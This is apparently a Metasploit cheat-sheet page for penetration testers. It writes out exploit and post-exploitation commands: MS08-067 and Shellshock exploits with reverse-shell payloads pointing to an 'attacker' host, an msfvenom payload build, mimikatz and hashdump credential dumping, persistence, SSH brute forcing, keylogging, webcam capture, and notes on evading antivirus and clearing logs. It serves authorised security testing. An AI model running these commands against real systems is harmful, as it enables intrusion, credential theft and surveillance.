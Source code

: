 ```yaml
---
icon: explosion
---
```


# MetaSploit

## The Metasploit Framework Masterclass: Professional Penetration Testing & Automation

Metasploit Framework is the most powerful and flexible open-source exploitation and post-exploitation toolkit available for security professionals, red teams, and bug bounty hunters. Its modularity covers every phase: reconnaissance, vulnerability identification, exploitation, privilege escalation, persistence, pivoting, evidence collection, and reporting.

***

### I. Core Capabilities & Workflow

* **Module-Driven Exploitation:** Thousands of modules—exploits, payloads, auxiliaries, post-exploitation, and encoders—covering Windows, Linux, web, IoT, and network devices.\[1]\[2]\[3]\[4]
* **Integrated Workflow:** Recon, scanning, exploitation, and post-exploitation in one framework with workspace/project management.\[3]\[4]
* **Smart Payloads:** Meterpreter, shell, stageless/staged, reverse/bind, HTTP/HTTPS, DNS payload options for advanced evasion and control.\[1]\[3]
* **Automated & Custom Exploitation:** Manual targeting or automated exploit campaigns, with customizable parameters for precision or mass exploitation.\[5]\[6]
* **Post-Exploitation Modules:** Privilege escalation, credential dumping, keystroke logging, evidence collection, memory forensics, data exfiltration, and network pivoting.\[7]
* **Persistence & Lateral Movement:** Persistence, route/socks proxies, pivoting to internal networks, and session management for multi-target operations.\[7]\[1]
* **Powerful Scripting/API:** Automate engagement workflows with msfconsole resource scripting, msfvenom (payload customization), and robust API for CI/CD or SOC integration.\[3]\[1]
* **Collaboration/Reporting:** Centralized reporting and proof-of-exploit artifacts for client delivery or bug bounty submission.\[8]\[3]
* **Evasion & OpSec:** Encoders, staged payloads, scriptless attacks, and bypass modules help evade EDR, AV, and blue teams.\[2]\[9]

***

### II. Professional Usage Examples

#### Scan, Exploit, and Pivot

```bash
msfconsole

```

* Import Nmap results or scan directly:`db_nmap -A target.com`
* Search for exploits:`search type:exploit platform:windows name:ms08_067`
* Use an exploit:`use exploit/windows/smb/ms08_067_netapi`
* Set options:`set RHOSTS target.com`
* Choose payload:`set PAYLOAD windows/meterpreter/reverse_tcp`
* Launch:`run`

#### Meterpreter Post-Exploitation

*   Privilege escalation:

    ```
    use post/windows/escalate/getsystem
    run

    ```
*   Dump credentials:

    ```
    use post/windows/gather/credentials/mimikatz
    run

    ```
*   Persistence:

    ```
    use post/windows/manage/persistence
    run

    ```
*   Internal recon, pivot:

    ```
    use post/multi/manage/autoroute
    set SESSION x
    run

    ```

#### Scripting & Automation

*   Run automated resource script:

    ```bash
    msfconsole -r commands.rc

    ```
*   Build custom payload with msfvenom:

    ```bash
    msfvenom -p windows/meterpreter/reverse_https LHOST=attacker LPORT=443 -f exe > shell.exe

    ```
*   Execute batch exploit automation:

    ```bash
    use auxiliary/scanner/ssh/ssh_login
    set USER_FILE users.txt
    set PASS_FILE passwords.txt
    set RHOSTS targets.txt
    run

    ```

#### Reporting & Evidence

*   Screenshot, keystroke log, download files, webcam snap:

    ```
    screenshot
    keyscan_start; keyscan_dump
    download C:\\\\\\\\Users\\\\\\\\file.txt
    webcam_snap

    ```

***

### III. Advanced Workflow & Scenarios

* **Multi-Project Management:** Organize targets, evidence, and reporting by project/workspace for parallel engagements.\[1]\[3]
* **Automated Campaigns:** Auto-exploit, multi-handler, and mass credential attack capability; integrate Nessus/OpenVAS output for validated risk mapping.\[5]\[3]
* **Deep Post-Exploitation:** 100+ post-modules covering system info, browser data, kernel and user-mode cred harvesting, lateral movement, and cloud access.\[7]
* **Pivoting/Internal Routing:** Use routing and SOCKS proxies to reach and exploit non-exposed targets in internal networks.\[7]
* **Evasion and Anti-Forensics:** Scriptless in-memory attacks, session migration, AV/EDR bypasses, clearing logs post-exploitation.
* **CI/CD and Integration:** Use the Metasploit RPC API in build pipelines, cloud red teams, or bug bounty automation for continuous engagement.\[10]\[1]

***

### IV. Real-World Workflow Example

1. **Import Recon and Launch Exploitation**

```bash
db_import nmap_results.xml
search type:exploit platform:linux
use exploit/linux/http/apache_mod_cgi_bash_env_exec
set RHOSTS target.com
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST attacker
run

```

1. **Privilege Escalation, Dumping, and Pivot**

```bash
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
use post/linux/gather/hashdump
run
use post/multi/manage/autoroute
run

```

1. **Automate Reporting**

```bash
loot
report

```

***

### V. Pro Tips & Best Practices

* Always keep the framework and module set updated for access to the newest exploits.\[2]\[1]
* Use staged payloads for stealth and network evasion.
* Validate and interpret post-exploitation output—false positives are possible.
* Leverage session management and pivoting options for multi-host/AD attacks.
* Prefer custom meterpreter payloads for interactive, evasive sessions.
* Document everything—screenshot, loot, command logs, session history.
* Respect client scope and authorization at all times.

***

This Metasploit guide empowers offensive security professionals to conduct professional, scalable, and high-credibility assessments across the entire kill chain, from initial recon to full compromise, privilege escalation, lateral movement, and reporting.\[4]\[8]\[10]\[2]\[3]\[1]\[7]

Sources \[1] Metasploit | Penetration Testing Software, Pen Testing ...[https://www.metasploit.com](https://www.metasploit.com) \[2] A step-by-step guide to the Metasploit Framework [https://www.hackthebox.com/blog/metasploit-tutorial](https://www.hackthebox.com/blog/metasploit-tutorial) \[3] Quick Start Guide | Metasploit Documentation [https://docs.rapid7.com/metasploit/quick-start-guide/](https://docs.rapid7.com/metasploit/quick-start-guide/) \[4] How To Use The Metasploit Framework For Penetration ... [https://www.eccouncil.org/cybersecurity-exchange/penetration-testing/metasploit-framework-for-penetration-testing/](https://www.eccouncil.org/cybersecurity-exchange/penetration-testing/metasploit-framework-for-penetration-testing/) \[5] Auto-Exploitation | Metasploit Documentation [https://docs.rapid7.com/metasploit/auto-exploitation/](https://docs.rapid7.com/metasploit/auto-exploitation/) \[6] Exploitation and Penetration Testing with Metasploit [https://www.coursera.org/learn/exploitation-and-penetration-testing-with-metasploit](https://www.coursera.org/learn/exploitation-and-penetration-testing-with-metasploit) \[7] What Are the Post Exploitation Modules in Metasploit? Full ... [https://www.webasha.com/blog/what-are-the-post-exploitation-modules-in-metasploit-full-list-of-top-100-options-with-examples](https://www.webasha.com/blog/what-are-the-post-exploitation-modules-in-metasploit-full-list-of-top-100-options-with-examples) \[8] A New User's Guide to Metasploit Pro [https://www.rapid7.com/globalassets/\_pdfs/whitepaperguide/metasploit-101-n00bs-guide-to-metasploit.pdf](https://www.rapid7.com/globalassets/_pdfs/whitepaperguide/metasploit-101-n00bs-guide-to-metasploit.pdf) \[9] Exploitation and Post-exploitation with Metasploit [https://www.pluralsight.com/courses/exploitation-post-exploitation-metasploit](https://www.pluralsight.com/courses/exploitation-post-exploitation-metasploit) \[10] Home | Metasploit Documentation Penetration Testing ... [https://rapid7.github.io/metasploit-framework/](https://rapid7.github.io/metasploit-framework/)
